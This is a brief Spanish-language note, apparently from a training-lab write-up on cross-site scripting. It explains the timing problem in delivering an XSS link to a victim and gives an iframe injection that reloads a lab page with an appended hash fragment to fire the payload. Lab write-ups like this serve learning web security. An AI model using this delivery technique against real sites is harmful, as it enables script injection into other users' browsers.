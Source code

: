 > Aunque tengamos el XSS explotado tenemos que enviar el enlace a la víctima, el problema está en que a veces JavaScript necesita cargar el código antes de que se ejecute nuestra instrucción.

![](/img2/Pasted%20image%2020250811234538.png)

- Injection

```html
<iframe src="https://0a3a00d6047932b180e80d7c00020044.web-security-academy.net/post?postId=9" onload="setTimeout(() => this.src+='#x', 1000)">
```